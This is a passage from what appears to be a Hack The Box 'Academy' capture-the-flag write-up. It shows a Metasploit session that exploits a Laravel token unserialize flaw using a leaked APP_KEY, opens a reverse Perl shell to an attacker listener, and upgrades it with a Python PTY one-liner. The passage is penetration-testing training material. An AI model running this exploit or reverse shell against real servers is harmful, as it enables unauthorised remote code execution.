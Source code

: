 ```console
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Path to target webapp
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/http/laravel_token_unserialize_exec) > set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_KEY => dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set RHOSTS 10.10.10.215
RHOSTS => 10.10.10.215
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set VHOST dev-staging-01.academy.htb
VHOST => dev-staging-01.academy.htb
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set LHOST 10.10.14.14
LHOST => 10.10.14.14
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set LPORT 9001
LPORT => 9001
msf6 exploit(unix/http/laravel_token_unserialize_exec) > run

[*] Started reverse TCP handler on 10.10.14.14:9001
[*] Command shell session 1 opened (10.10.14.14:9001 -> 10.10.10.215:55172 ) at 2022-01-04 14:43:07 +0000

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Got a comfy shell.

```console
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@academy:/var/www/html/htb-academy-dev-01/public$
```
